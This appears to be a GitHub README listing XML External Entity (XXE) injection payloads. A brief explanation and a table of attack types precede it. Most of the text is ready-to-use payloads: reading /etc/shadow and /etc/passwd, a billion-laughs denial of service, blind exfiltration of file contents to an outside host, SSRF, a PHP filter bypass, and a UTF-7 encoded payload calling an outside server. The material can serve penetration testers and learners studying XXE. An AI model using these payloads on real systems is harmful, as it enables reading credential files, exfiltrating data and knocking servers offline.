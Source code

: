 ### XML External Entity (XXE) Injection Payload List

In this section, we'll explain what XML external entity injection is, describe some common examples, explain how to find and exploit various kinds of XXE injection, and summarize how to prevent XXE injection attacks. 

#### What is XML external entity injection?

XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any backend or external systems that the application itself can access.

In some situations, an attacker can escalate an XXE attack to compromise the underlying server or other backend infrastructure, by leveraging the XXE vulnerability to perform server-side request forgery (SSRF) attacks. 

<p align="center"> 
<img src="/Image/xxe-injection.jpg">
</p>

There are various types of XXE attacks: 

|XXE Attack Type               |Description                          |
|----------------|-------------------------------|
|Exploiting XXE to Retrieve Files| Where an external entity is defined containing the contents of a file, and returned in the application's response. |
|Exploiting XXE to Perform SSRF Attacks| Where an external entity is defined based on a URL to a back-end system. |
|Exploiting Blind XXE Exfiltrate Data Out-of-Band| Where sensitive data is transmitted from the application server to a system that the attacker controls. |
|Exploiting blind XXE to Retrieve Data Via Error Messages | Where the attacker can trigger a parsing error message containing sensitive data. |

##### XML External Entity (XXE) Injection Payloads

###### XXE: Basic XML Example

```
<!--?xml version="1.0" ?-->
<userInfo>
 <firstName>John</firstName>
 <lastName>Doe</lastName>
</userInfo>
```

###### XXE: Entity Example

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```

###### XXE: File Disclosure

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&ent;</lastName>
</userInfo>
```

###### XXE: Denial-of-Service Example

```
<!--?xml version="1.0" ?-->
<!DOCTYPE lolz [<!ENTITY lol "lol"><!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
<tag>&lol9;</tag>
 ```
 
###### XXE: Local File Inclusion Example
 
 ```
 <?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>
 ```
 
###### XXE: Blind Local File Inclusion Example (When first case doesn't return anything.)
 
 ```
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo (#ANY)>
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY blind SYSTEM "https://www.example.com/?%xxe;">]><foo>&blind;</foo>
 ```
 
###### XXE: Access Control Bypass (Loading Restricted Resources - PHP example)

```
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=http://example.com/viewlog.php">]>
<foo><result>&ac;</result></foo>
```

###### XXE:SSRF ( Server Side Request Forgery ) Example

```
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "https://www.example.com/text.txt">]><foo>&xxe;</foo>
```

###### XXE: (Remote Attack - Through External Xml Inclusion) Exmaple

```
<?xml version="1.0"?>
<!DOCTYPE lolz [
<!ENTITY test SYSTEM "https://example.com/entity1.xml">]>
<lolz><lol>3..2..1...&test<lol></lolz>
```

###### XXE: UTF-7 Exmaple

```
<?xml version="1.0" encoding="UTF-7"?>
+ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
+ADwAIQ-ENTITY xxe SYSTEM +ACI-http://hack-r.be:1337+ACI +AD4AXQA+
+ADw-foo+AD4AJg-xxe+ADsAPA-/foo+AD4
```

#### References :
 
👉 [XML External Entity (XXE) Processing](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing)

👉 [XML External Entity Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html) 

👉 [Testing for XML Injection (OTG-INPVAL-008)](https://www.owasp.org/index.php/Testing_for_XML_Injection_(OTG-INPVAL-008))
